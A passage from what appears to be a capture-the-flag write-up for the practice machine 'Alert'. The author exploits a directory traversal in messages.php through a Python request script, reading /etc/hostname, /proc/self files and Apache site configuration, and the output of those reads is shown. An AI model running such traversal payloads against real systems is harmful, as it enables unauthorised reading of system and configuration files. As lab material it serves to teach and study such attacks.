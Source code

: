 ```
}
?>

</pre>

```

It worked! I can see it’s using `file_get_contents`, which is why I can read the PHP source without it being executed (as it would be if it used `include`). This means I can read files across the entire file system, which is a directory traversal / file read vulnerability (and not a LFI, which requires an include to execute the included code).

This is where I updated the Python script from `target = sys.argv[1]` to:

```

target = sys.argv[1] if sys.argv[1].startswith('http') else f'http://alert.htb/messages.php?file=../../../../{sys.argv[1]}'

```

### Access to Statistics Page

#### General System Enumeration

The system root is four directories above the `messages` directory:

```

oxdf@hacky$ python make_request.py /etc/hostname
<pre></pre>

oxdf@hacky$ python make_request.py /etc/hostname
<pre>alert
</pre>

```

Unfortunately, I’m not able to read the current processes environment, but I can see the command line:

```

oxdf@hacky$ python make_request.py /proc/self/environ
<pre></pre>
oxdf@hacky$ python make_request.py /proc/self/cmdline
<pre>/usr/sbin/apache2-kstart</pre>

```

#### Apache Configs

The Apache configs for websites are typically stored in `/etc/apache2/sites-enabled`. The default name is `000-default.conf`. That file exists on Alert:

```

<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
```